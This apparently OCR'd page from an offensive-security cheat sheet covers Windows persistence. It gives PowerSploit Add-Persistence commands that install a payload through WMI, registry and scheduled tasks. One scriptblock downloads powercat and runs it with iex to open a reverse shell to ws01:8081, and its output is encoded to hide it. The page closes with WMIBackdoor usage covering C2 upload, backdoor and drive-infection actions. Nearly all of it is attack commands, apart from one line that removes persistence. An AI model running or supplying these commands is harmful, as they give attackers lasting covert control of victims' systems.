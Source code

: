```powershell
. .\Remove-Persistence.ps1
Remove-Persistence -Remove
```

The same result can be achieved by `Persistence.psm1` from `PowerSploit`:

```powershell
# PowerSploit
Import-Module Persistence.psm1 -Verbose
Get-Command -Module Persistence

# Creates a script containing the contents of EvilPayload.ps1 that when executed with the '-Persist' switch will persist the payload using its respective persistence mechanism (user-mode vs. elevated) determined at runtime.
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

# Creates a script containing the contents of the provided scriptblock that when executed with the '-Persist' switch will persist the payload using its respective persistence mechanism (user-mode vs. elevated) determined at runtime. The output is then passed through to Out-EncodedCommand so that it can be executed in a single command line statement. The final, encoded output is finally saved to .\EncodedPersistentScript.ps1
$Rickroll = { iex (iwr https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1); powercat -c ws01 -p 8081 }
$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle
Add-Persistence -ScriptBlock $RickRoll -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1
```

by `WMIBackdoor.ps1`:

```powershell
# Select the trigger
$trigger = New-WMIBackdoorTrigger -TimingInterval <uint32> [-TimerName <string>] [-TriggerName <string>]
$trigger = New-WMIBackdoorTrigger -Datetime <datetime> 
$trigger = New-WMIBackdoorTrigger -ProcessName <string>  
$trigger = New-WMIBackdoorTrigger -NewOrModifiedFileExtensions <string[]> 
$trigger = New-WMIBackdoorTrigger –LockedScreen 
$trigger = New-WMIBackdoorTrigger –InteractiveLogon 
$trigger = New-WMIBackdoorTrigger –DriveInsertion

# Select the action
$action = New-WMIBackdoorAction -C2Uri <uri> -FileUpload 
$action = New-WMIBackdoorAction -C2Uri <uri> -Backdoor 
$action = New-WMIBackdoorAction -KillProcess 
$action = New-WMIBackdoorAction -InfectDriv

# Register the backdoor
Register-WMIBackdoor -Trigger $trigger -Action $action [[-ComputerName] <string>]
```
